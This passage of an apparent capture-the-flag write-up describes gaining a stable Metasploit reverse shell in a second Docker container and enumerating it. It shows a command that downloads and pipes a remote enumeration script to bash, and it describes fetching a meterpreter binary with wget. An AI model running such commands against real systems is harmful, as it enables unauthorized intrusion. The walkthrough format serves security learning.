 This container is more or less the same as the first container we got shell on, but it's running a different Linux release. We saw from phpinfo on the first container it was running some subset of Ubuntu; however, this container is running Debian Jessie on the same kernel: 4.15.0-65. This means there are multiple images on the backend host machine's docker configuration. We'll keep that in mind for later. We don't have a stable shell at the moment, so we'll need to repeat the process from earlier with the first container by wgetting a meterpreter linux binary to this host. Keep in mind, this current shell is very unstable, so we'll do everything from our current path. On the bright-side we don't have to change anything, so we can just reuse the previous binary we generated with msfvenom:

![screenshot](/assets/img/safeharbor/container2_wget.PNG)

Once that's done, hop back over the metasploit, and use the exploit/multi/handler module once again. We'll execute our reverse shell binary through the exploit shell, and catch it with metasploit. I made some minor mistakes while writing this and lost a couple of shells on the way, so that is why this one is now number 4. Anyway, we now have a stable shell, so let's do some poking around with linenum again:

```
meterpreter> shell
Process 104 created.
Channel 1 created.
curl http://200.0.12.102/linenum.sh | bash
--SNIP--
```
![screenshot](/assets/img/safeharbor/container2_root_history.PNG)

Not much jumps out at me after running linenum; however, I do see there is a .bash_history file for the root user, so maybe we can get some clues as to what the admin was doing previously.

![screenshot](/assets/img/safeharbor/container2_root_history2.PNG)
